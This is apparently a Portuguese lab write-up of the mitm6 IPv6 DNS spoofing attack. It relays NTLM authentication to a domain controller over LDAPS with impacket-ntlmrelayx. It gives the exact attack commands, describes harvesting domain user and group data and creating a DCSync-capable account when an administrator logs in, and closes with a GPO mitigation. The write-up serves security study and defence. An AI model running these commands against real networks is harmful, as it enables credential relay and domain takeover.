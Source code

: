 

## Definição

Na instalação de um sistema operativo _Windows_ por defeito temos no interface de rede o protocolo IPV6 activo, devido a isso existe trafego por IPV6 para a rede. Um exemplo pratico são as queries DNS que saem por IPV6, como normalmente o nosso servidor DNS não responde a IPV6 podemos-nos colocar como um servidor DNS malicioso que irá escutar todos os pedidos e aceder aos pedidos de autenticação, sejam eles por exemplo LDAP ou SMB.

## Cenário

## Exploração (PoC)

iniciamos o nosso _listner_ IPV6 e fazemos relay para o nosso controlador de dominio.

```
mitm6 -d insecure.local
```

![](runmimt6.png)

```
sudo impacket-ntlmrelayx -6 -t ldaps://192.168.0.100 -wh fakewpad.insecure.local -l lab/labad/lootme
```

![](runntlmrelayx.png)

Após um login ou uma máquina ficar activa verificamos que o trafego IPV6 é _relayed_ para o nosso controlador de dominio, desta forma ficamos com muita informação sobre o dominio.

![](runntlmrelayxnonpriv.png)

![](info.png)

Ao abrirmos estes ficheiros ficamos com muita informação do dominio, podendo-se verificar que utilizadores existem e a que grupos pertencem,

![](info2.png)

**Caso algum administrador de dominio** faça login é criado um user de forma automática com permissões de DCSync o que nos permitirá evoluir para outro tipo de exploração.

![](runntlmrelayxpriv.png)

![](aduser.png)

# Mitigação

Devemos desabilitar por GPO a aplicação das configurações IPV6 na nossa organização, caso não esteja em uso.

